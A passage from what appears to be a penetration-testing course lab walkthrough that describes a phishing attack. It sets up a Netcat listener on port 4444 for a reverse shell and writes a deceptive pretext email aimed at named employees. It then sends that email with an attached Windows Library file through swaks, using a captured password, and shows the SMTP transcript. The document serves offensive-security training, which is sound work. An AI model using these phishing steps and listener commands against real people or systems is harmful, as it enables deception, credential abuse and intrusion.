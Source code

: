 ```
kali@kali:~/beyond$ nc -nvlp 4444      
listening on [any] 4444 ...
```

> Listing 37 - Listening on port 4444 with Netcat

With Netcat running, all services and files are prepared. Now, let's create the email.

We could also use the WebDAV share to serve Powercat instead of the Python3 web server. However, serving the file via another port provides us additional flexibility.

To send the email, we'll use the command-line SMTP test tool _swaks_.[2](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/assembling-the-pieces/gaining-access-to-the-internal-network/phishing-for-access#fn2) As a first step, let's create the body of the email containing our pretext. Because we don't have specific information about any of the users, we have to use something more generic. Fortunately, we obtained some information about the target company on WEBSRV1 within the Git repository.

Including information only known to employees or staff will tremendously increase our chances that an attachment is opened.

We'll create the **body.txt** file in **/home/kali/beyond** with the following text:

```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

Hopefully this text will convince _marcus_ or _daniela_ to open our attachment.

In a real assessment we should also use passive information gathering techniques to obtain more information about a potential target. Based on this information, we could create more tailored emails and improve our chances of success tremendously.

Now we are ready to build the swaks command to send the emails. We'll provide **daniela@beyond.com** and **marcus@beyond.com** as recipients of the email to **-t**, **john@beyond.com** as name on the email envelope (sender) to **--from**, and the Windows Library file to **--attach**. Next, we'll enter **--suppress-data** to summarize information regarding the SMTP transactions. For the email subject and body, we'll provide **Subject: Staging Script** to **--header** and **body.txt** to **--body**. In addition, we'll enter the IP address of MAILSRV1 for **--server**. Finally, we'll add **-ap** to enable password authentication.

The complete command is shown in the following listing. Once entered, we have to provide the credentials of _john_:

```
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.50.242:25...
=== Connected to 192.168.50.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kali
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
```